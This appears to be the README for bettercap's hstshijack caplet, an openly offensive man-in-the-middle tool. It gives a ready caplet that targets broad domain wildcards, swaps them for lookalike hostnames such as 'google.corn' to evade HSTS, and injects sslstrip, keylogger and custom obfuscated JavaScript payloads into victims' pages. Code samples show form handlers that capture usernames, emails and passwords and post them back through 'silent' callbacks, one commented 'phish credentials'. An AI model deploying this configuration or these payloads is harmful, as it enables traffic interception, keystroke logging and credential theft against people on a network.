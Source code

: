 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet ([hstshijack.cap](https://github.com/bettercap/caplets/blob/master/hstshijack/hstshijack.cap))

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets                    *.com, *.net,*.me, *.nl,*.ai,*.co.uk,*.cn,*.google
set hstshijack.replacements               *.corn,*.nel,*.rne,*.ni,*.al,*.cc.uk,*.ch,*.googl
set hstshijack.replacements.req.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/req.body.json
set hstshijack.replacements.req.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/req.headers.json
set hstshijack.replacements.req.url       /usr/local/share/bettercap/caplets/hstshijack/replacements/req.url.json
set hstshijack.replacements.res.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/res.body.json
set hstshijack.replacements.res.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/res.headers.json
set hstshijack.ssl.domains                /usr/local/share/bettercap/caplets/hstshijack/ssl/domains.txt
set hstshijack.ssl.index                  /usr/local/share/bettercap/caplets/hstshijack/ssl/index.json
set hstshijack.ssl.index.check            true
set hstshijack.ssl.discovery.synchronous  true
set hstshijack.ssl.discovery.timeout      4
set hstshijack.cookies.downgrade          true
#set hstshijack.blockscripts               example.com,*.example.com
set hstshijack.obfuscate                  true
set hstshijack.payloads                   *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js,google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js
set hstshijack.whitelist                  /usr/local/share/bettercap/caplets/hstshijack/session/whitelist.json
set hstshijack.ignore                     captive.apple.com,connectivitycheck.gstatic.com,detectportal.firefox.com,www.msftconnecttest.com

net.recon on

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/modules/hstshijack.js
http.proxy on

set dns.proxy.script /usr/local/share/bettercap/caplets/hstshijack/modules/dns.proxy.js
dns.proxy on
```

### <a href="./payloads/hijack.js">**hijack.js**</a> payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>) which acts as a callback for bettercap, and takes care of hostname spoofing in attributes of injected documents, as well as fetch and XMLHttpRequest.

Injecting <a href="./payloads/hijack.js">**hijack.js**</a> is essential for hostname spoofing.

### Scalable domain indexing (SSL log)

<br>

<p align="center">
  <img src="https://raw.githubusercontent.com/buffermet/cdn/refs/heads/master/github.com/bettercap/caplets/hstshijack/ssl.index.png" alt="Indexed domains that use HTTPS" />
</p>

When hosts respond with an HTTPS redirect, bettercap will save their hostname in lists that are sorted by domain prefixes, allowing the list to scale by reducing a considerable amount of overhead for the proxy module.

By default, this caplet will remap these lists of domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable to `false`.

Bettercap will also send a HEAD request to unknown hosts that were discovered in the injected document and retrieved via a callback from the <a href="./payloads/hijack.js">**hijack.js**</a> payload. This is done to learn what hosts use HTTPS, ahead of time.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Regular Expression replacements

...

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are (optionally) obfuscated at launch, executed synchronously, and wrapped inside a function that is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once per application, even if injected multiple times.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the <a href="./payloads/hijack.js">**hijack.js**</a> payload when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_hstshijack_` will be obfuscated.

Example: 

```js
function obf_hstshijack_function() {
  alert("Random variable: obf_hstshijack_whatever_follows")
}

obf_hstshijack_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_hstshijack_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_hstshijack_path_callback` will be replaced with the callback path (see example above).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_hstshijack_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_hstshijack_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.
